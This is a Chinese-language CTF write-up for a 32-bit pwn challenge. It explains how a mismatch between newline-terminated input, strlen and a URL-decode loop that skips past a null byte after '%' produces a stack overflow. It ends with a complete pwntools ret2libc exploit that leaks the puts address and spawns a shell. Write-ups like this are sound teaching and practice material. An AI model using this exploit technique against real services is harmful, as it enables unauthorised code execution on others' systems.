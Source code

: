 # 0x5 PWN4

描述: 给了一个二进制文件和libc库, CTF中正常情况下低分的PWN题, 因为栈溢出的利用相对比较简单, 所以相关的题分数相对比较低, 正常情况下CTF的pwn题不会像前面那样那么容易就让你发现溢出点

pwn4首先看是32位程序, 然后丢到ida中去, 该程序有两个主要的函数`sub_8048800`和`sub_8048720`:

> sub_8048720: 获取输入的函数, 根据`\x0a`来判断是否结尾, 会在输入的字符串结尾加上`\x00`, 没有输入的长度限制, 输入存在堆中, 会根据输入的长度动态扩展堆, 没发现漏洞, 认为无法溢出

> sub_8048800: 通过strlen判断输入的字符串长度, 必须大于7小于0x80, 开头7byte必须是`http://`,初始化了一个0x80大小的栈, 然后是根据是否有%符号, 如果不是%符号, 则把堆上的字符copy到栈上去, 如果遇到%, 则把之后两个byte当成十六进制, 然后转成字符串copy到栈上去, 遇到\x00则结束copy, 比如堆上的数据是`http://%41`, 则copy到栈上之后的结果是`http://A`, 其实就是一个urldecode的代码

粗看之下并没有发现有溢出点, 但是仔细分析下, 这两个函数结合起来有一个算是逻辑方面的漏洞吧.

`sub_8048720`是根据`\x0a`来判断结尾, 而`strlen`函数是根据`\x00`来判断字符串长度, 也就是说, 我输入`http://\x00aaaaaaaaaaaaaa\x0a`, 使用strlen来判断长度, 其长度为7.

但是还有一个问题, `sub_8048800`中也是根据`\x00`来判断copy的结尾, 但是却存在一个逻辑漏洞, 如果当前byte是%, 则把后面两byte根据十六进制ascii转成字符, 然后指针向后移两位:

所以说, 如果我的`\x00`藏在%号之后, 就不会遇到copy结束的判断, 从而导致栈溢出

栈溢出证明: `'http://\x00' + 'a'*0x100`

然后是本题的payload:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

pwn4 = ELF('pwn4')
libc = ELF('libc.so.6')

padding = "http://%\x00" + 'a' * (156 - 9 + 2)    # 加2是因为出现了%, 指针偏移了两位

p = remote("127.0.0.1", 10004)

get_write_addr_payload = padding + p32(pwn4.symbols['puts']) + p32(0x8048590) + p32(pwn4.got['puts']) # puts(puts_got) 然后调回到main函数
p.readuntil('URL: ')
p.sendline(get_write_addr_payload)
p.readuntil("http://\n")
puts_addr = u32(p.recv()[:4])   # puts_got

# 之后就是栈溢出知道libc库的套路, 跟pwn3一样
puts_system_addr = libc.symbols['puts'] - libc.symbols['system']
puts_binsh_addr = libc.symbols['puts'] - libc.search('/bin/sh').next()

system_addr = puts_addr - puts_system_addr
binsh_addr = puts_addr - puts_binsh_addr

get_shell_payload = padding + p32(system_addr) + p32(0x8048590) + p32(binsh_addr)
p.sendline(get_shell_payload)
p.interactive()
```

